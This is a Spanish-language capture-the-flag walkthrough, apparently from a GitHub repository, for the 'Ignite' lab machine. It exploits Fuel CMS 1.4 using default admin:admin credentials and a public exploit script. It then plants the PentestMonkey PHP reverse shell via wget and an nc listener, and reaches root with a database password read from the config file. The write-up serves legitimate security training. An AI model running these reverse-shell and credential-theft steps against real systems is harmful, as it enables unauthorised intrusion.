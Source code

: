 # IGNITE

## Reconocimiento

Para comenzar, haremos un Nmap para sacar los puertos abietos, versiones, etc.

``nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA``

1. -T4 -> Dedique un máximo de 4 segundos a escanear un solo puerto.
2. --min-rate=10000 -> Envía 10000 paquetes por segundo.
3. -p- -> Escanea todos los puertos.
4. -A -> Permite un escaneo agresivo.

![Imagen1](/Iginite/assets/2025-02-06%2018_06_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

En este escaneo podemos ver que solo tenemos un puerto abierto que es 80 / tcp - HTTP - que ejecuta el servidor web Apache con Fuel CMS.

Tambien podemos ver que la única entrada no permitida es la página de inicio de sesión para el CMS ``robots.txt/fuel``.

## Explotacion de la Web

Visitemos el sitio web que se ejecuta en el puerto 80.

![Imagen2](/Iginite/assets/Captura%20de%20pantalla%202025-02-06%20194100.png)

Luego, entraremos en la pagina web predeterminada de Fuel CMS e intentamos iniciar sesión.

![Imagen3](/Iginite/assets/2025-02-06%2018_08_44-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Primero probaremos con el nombre de usuario y la contraseña predeterminados ``admin:admin``. Y obtendremos el acceso al panel de control.

![Imagen4](/Iginite/assets/2025-02-06%2018_09_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Si hacemos click en "Click here for your site documentation", nos eviara a una pagina web en la que nos pondra la version del FUEL CMS, que es la 1.4.

![Imagen5](/Iginite/assets/2025-02-06%2018_11_28-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Si buscamos en Google alguna vulneravilidad para esta verison de Fuel CMS, encontramos que hay una para la version 1.4.1, por lo que la descargamos y la provaremos.

![Imagen6](<2025-02-06 18_14_27-KaliLinux-Hacking - VMware Workstation.png>)

Para ejecutarla podremos el comando siguiente comando de python:

``python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA``

![alt text](<2025-02-06 18_38_46-KaliLinux-Hacking - VMware Workstation.png>)

Consultando la hoja de trucos de PentestMonkey, podemos descargar una reverse shell en php, que vamos a descargar con un ``wget`` copiando el enlace desde la pagina web oficial.

`http://pentestmonkey.net/tools/php-reverse-shell`

![alt text](<2025-02-06 18_39_55-KaliLinux-Hacking - VMware Workstation.png>)

``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``

![alt text](<2025-02-06 18_41_01-KaliLinux-Hacking - VMware Workstation.png>)

Al desconprimir el archivo que nos hemos descargado, nos dejara una carpeta en la que dentro tendremos un .php que es la reverse shell, la cual vamos a entrar a modificar y cambiaremos un par de cosas.

![alt text](<2025-02-06 18_42_14-KaliLinux-Hacking - VMware Workstation.png>)

Lo primero que cambiaremos es la direccion ip, la cual podremos la disccion ip de nuestra maquina Kali, y luego tendremos que cambiar el puerto a un puerto que tengamos libre.

```php
$ip = IP_MAQUINA_ATACANTE;
$port = PUERTO_LIBRE;
```

![alt text](<2025-02-06 18_42_44-KaliLinux-Hacking - VMware Workstation.png>)

Ahora entraremos en la carpeta donde esta la reverse shell, y ejecutaremos el siguiente comando para levantar un servidor web simple en el puerto 80 utilizando el módulo http.server de Python.

``python3 -m http.server 80``

![alt text](<2025-02-06 18_48_50-KaliLinux-Hacking - VMware Workstation.png>)

Ahora volviendo a la shell que tenemos abierta en el servidor, podremos un ``wget`` para descargarmos la reverse shell dentro del servidor, y poder posteriormente ejecutarla.

![alt text](<2025-02-06 18_50_09-KaliLinux-Hacking - VMware Workstation.png>)

Antes de ejecutar la reverse shell, vamos a poner en escucha el puerto que configuramos anteriormente en el archivo ``.php``.

`nc -nlvp PUERTO_CONFIGURADO`

![alt text](<2025-02-06 19_01_48-KaliLinux-Hacking - VMware Workstation.png>)

Y ahora para ejecutar la reverse shell vamos a poner la direccion de la pagina web ``/php-reverse-shell.php`` o el nombre que tenga el archivo.

`http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL`

![alt text](<2025-02-06 19_07_51-KaliLinux-Hacking - VMware Workstation.png>)

## Comprometer la Maquina

Y si todo a funcionado correctamente, en la terminal en la que teniamos escuchando por el puerto configurado, se nos habra abierto una terminal en la que si por ejemplo escribimos `whoami` nos dira que estamos en el usuario ``www-data``.

![alt text](<2025-02-06 19_08_15-KaliLinux-Hacking - VMware Workstation.png>)

Ya tenemos la reverse shell, pero no es del todo amigable en este momento. Así que vamos mejorala, para ello ejecutamos las siguientes lineas:

```py

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

<CTRL> + Z

stty raw -echo; fg

```

![alt text](<2025-02-06 19_09_34-KaliLinux-Hacking - VMware Workstation.png>)

Y ahora tenemos un shell estable con autocompletado de pestañas y otras características.

Ahora vamos a buscar la primera flag, la cual se encuentra en el ``home`` del usuario en el que estamos.

![alt text](<2025-02-06 19_10_53-KaliLinux-Hacking - VMware Workstation.png>)

Por lo que le hacemos un ``cat`` y la pemos ver.

## Escalada de Privilegios

Revisando la página predeterminada de Fuel CMS, se especifica que incluya el nombre de usuario y la contraseña dentro del archivo de configuracion `database.php` que se encuentra en la ruta `fuel/application/config/database.php`.

![alt text](<2025-02-06 19_11_51-KaliLinux-Hacking - VMware Workstation.png>)


![alt text](<2025-02-06 19_15_35-KaliLinux-Hacking - VMware Workstation.png>)

Por lo que entramos alli, y le aremos un ``cat`` al archivo `database.php`.

`cat database.php | grep "pass"`

![alt text](<2025-02-06 19_16_22-KaliLinux-Hacking - VMware Workstation.png>)

Ahora nos registraremos como root, para ello podremos el siguiente comando:

`su -`

Y podremos la contraseña que hemos visto anteriormente en el archivo `database.php`.

`mememe`

![alt text](<2025-02-06 19_19_22-KaliLinux-Hacking - VMware Workstation.png>)

Haciendo un ls vemos que ya tenemos la flag aqui, por lo que le aremos un cat y ya la podremos ver.

![alt text](<2025-02-06 19_19_53-KaliLinux-Hacking - VMware Workstation.png>)